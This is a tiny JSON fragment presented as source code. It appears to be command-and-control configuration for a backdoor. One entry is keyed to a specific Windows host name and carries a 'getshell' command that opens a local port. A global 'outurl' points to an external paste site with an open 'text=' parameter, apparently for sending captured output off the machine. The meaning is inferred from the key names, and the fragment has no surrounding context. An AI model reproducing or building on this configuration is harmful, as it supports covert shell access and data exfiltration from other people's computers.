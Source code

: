 {
    "DESKTOP-0BEOBG6": {
        "getshell": "l t 127.0.0.1 8080~open"
    },
    "all": {
        "outurl": "http://kl1p.com/qwokc?save=true&id=&type=plain&name=qwokc&nid=&param=&client=web&text="
    }
}

